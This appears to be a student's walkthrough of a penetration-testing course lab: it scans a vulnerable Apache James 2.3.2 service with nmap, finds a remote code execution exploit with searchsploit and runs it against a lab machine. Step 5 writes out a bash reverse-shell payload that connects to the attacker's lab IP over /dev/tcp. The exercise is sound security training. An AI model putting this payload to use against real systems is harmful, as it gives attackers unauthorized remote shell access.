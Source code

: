 # 14.3.1 Putting It All Together
#### Exercises

_(To be performed on your own Kali and Ubuntu lab client machines - Reporting is required for these exercises)_

**1.  Connect to your dedicated Linux client and start the vulnerable Apache James service using the _/usr/local/james/bin/run.sh_ script.**

This is straightforward, we just need to run the aformentioned script to start the Apache James service.
![[Pasted image 20220717014710.png]]


**2.  Enumerate the target using port scanning utilities and use information from the banners and Internet searches to determine the software running on the machine.**

We can start our nmap script with the following command:
`sudo nmap 192.168.243.44 -p- -sV -vv --open --reason`

We receive the following:
![[Pasted image 20220717015038.png]]
Our internet search shows that we are running Apache James 2.3.2
![[Pasted image 20220717015301.png]]


**3.  Use the _searchsploit_ tool to find exploits for this version on the online resources mentioned in this module.**

Using Searchsploit we find a number of exploits including a very promising Remote Code Execution in the form of a python script. Let's try this script out.
![[Pasted image 20220717015516.png]]
**4.  Launch the exploit and verify that the payload is executed upon logging in to the machine.**

We simply run the payload with the required IP argument. 
![[Pasted image 20220717015936.png]]
We can see upon login that our exploit has executed.
![[Pasted image 20220717020336.png]]

And we can see our proof.txt file.
![[Pasted image 20220717020435.png]]

**5.  Attempt to modify the _payload_ variable in order to get a reverse shell on the target machine.**

In order to receive a reverse shell we just need to modify the initial exploit and change the line stating "touch /root/proof.txt" to a reverse shell. 
`payload = 'bash -i >& /dev/tcp/192.168.119.243/9001 0>&1'`

And we see our reverse connection
![[Pasted image 20220717021758.png]]